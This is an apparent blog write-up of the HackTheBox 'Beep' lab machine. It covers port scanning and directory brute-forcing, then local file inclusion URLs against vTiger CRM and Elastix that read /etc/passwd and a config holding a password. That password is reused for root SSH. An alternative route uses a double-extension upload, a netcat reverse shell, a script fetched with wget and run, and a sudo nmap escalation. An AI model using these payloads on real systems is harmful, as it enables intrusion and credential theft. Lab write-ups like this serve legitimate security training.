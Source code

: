 ```yaml
---
title: "Walk-through of Beep from HackTHeBox"
header: 
  teaser: /assets/images/2020-05-05-22-24-23.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Metasploit
  - Linux
---
```


## Machine Information

![Beep](/assets/images/2020-05-05-22-24-23.png)

Beep has a large list of running services, which can make it a bit challenging to find the
correct entry method. Skills Learned are web-based fuzzing, identifying known exploits and exploiting local file inclusion vulnerabilities.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 005 - Easy - Beep](https://www.hackthebox.eu/home/machines/profile/5) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 16th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/beep# nmap -sS -sC -sV -oA beep -p- -T4 10.10.10.7

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-21 22:39 BST
Nmap scan report for 10.10.10.7
Host is up (0.039s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP PIPELINING USER STLS TOP LOGIN-DELAY(0) AUTHRESP-CODE EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            874/udp  status
|_  100024  1            877/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4rev1 Completed ACL URLAUTHA0001 OK UIDPLUS THREAD=REFERENCES IDLE ANNOTATEMORE IMAP4 LIST-SUBSCRIBED LISTEXT CHILDREN CATENATE ID THREAD=ORDEREDSUBJECT UNSELECT X-NETSCAPE MAILBOX-REFERRALS ATOMIC STARTTLS RENAME SORT BINARY RIGHTS=kxte MULTIAPPEND LITERAL+ CONDSTORE NAMESPACE QUOTA NO SORT=MODSEQ
443/tcp   open  ssl/https?
|_ssl-date: 2019-07-21T21:38:52+00:00; -3m49s from scanner time.
877/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
Host script results:
|_clock-skew: mean: -3m49s, deviation: 0s, median: -3m49s
```

Lots of ports open, start on normal path looking at port 80.

### Gaining Access

Opening website at http://10.10.10.7 on port 80 automatically redirects to port 443:
![Website](/assets/images/2020-05-11-22-37-57.png)

Login page for something called Elastix. Quick search for default credentials finds this [info](https://dariusfreamon.wordpress.com/2013/11/01/elastix-pbx-default-credentials/). Tried those plus other obvious ones but no luck, so try gobuster to find anything hidden:

```text
root@kali:~/htb/beep# gobuster dir -k -u https://10.10.10.7 -w /usr/share/wordlists/dirb/big.txt
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/07/21 22:53:47 Starting gobuster
===============================================================
/vtigercrm (Status: 301)
```

Having a look at the site: https://10.10.10.7/vtigercrm - We find CRM is version is 5.1.0

Have a look on searchsploit:

```text
root@kali:~/htb/beep# searchsploit vtiger
vTiger CRM 5.1.0 - Local File Inclusion  |  exploits/php/webapps/18770.txt
```

Exploit shows how to use LFI to navigate to sub-directories, use this in browser to get passwd file:

```text
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

Press ctrl-u to view source, shows as a proper list instead of jumble.

Copy and paste in to vi, remove all users with no login by doing:

```text
:g/nologin/d
```

Then remove non interesting logins, and cut from cursor to end of line with d$ for each remaining user to give simple list like this:

```text
root
cyrus
asterisk
fanis
```

No obvious way forward with this, so save for possible brute force later and look for another path.

Going back to at Elastix, I find it's prone to LFI exploit:

```text
root@kali:~/htb/beep# searchsploit elastix
-------------------------------------------------------------------------------- 
Exploit Title                                    |  Path
                                                 | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------- 
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php/webapps/37637.pl
-------------------------------------------------------------------------------- 
```

Exploit shows how to expose the Elastix config, use this in browser:

```text
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

This exposes the user **AMPortal**, with password **jEhdlekWmdjE**

The machine is vulnerable to password reuse, so it's possible to logon as root using this password:

```text
root@kali:~/htb/beep# ssh root@10.10.10.7
root@10.10.10.7's password:   <---- enter jEhdlekWmdjE found above
Last login: Tue Jul 16 11:45:47 2019
Welcome to Elastix 
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
```

### User and Root Flags

Now have an ssh session on to the machine, check who we are logged on as:

```text
whoami
root
```

On as root user, so can get both flags:

```text
cat /home/fanis/user.txt
cat /root/root.txt
```

## Alternative Method

Brief notes of a different way to complete the box.

Log in to https://10.10.10.7/vtigercrm - user **admin**, password **jEhdlekWmdjE**

Navigate to Settings - Company Details

There is a file upload vulnerability where you can upload a jpg but it doesn't properly sanitise. So you can have shell.php.jpg, then use [Tamper Data](https://addons.mozilla.org/en-GB/firefox/addon/tamper-data-for-ff-quantum/) or [Burp](https://portswigger.net/burp) (already installed on Kali) to intercept request and remove double extension. Should then upload as a php file.

Have an nc -lvp 1234 waiting in a terminal and should get a reverse shell.

We are then logged in as user asterisk, and can get user flag from fanis folder.
When checking we see /tmp, is world writeable, so CD to there.

Start web server on Kali:

```text
root@kali:~/htb/beep# service apache2 start
```

Switch back to the box, pull LinEnum to it and run:

```text
wget 10.10.14.10/LinEnum.sh
bash LinEnum.sh
```

Shows what commands can use sudo without password (same as doing sudo -l). Has nmap in list.

Use nmap to escalate to root:

```text
sudo nmap --interactive 
!sh
whoami
root
```

I can now get the user and root flags as above now.
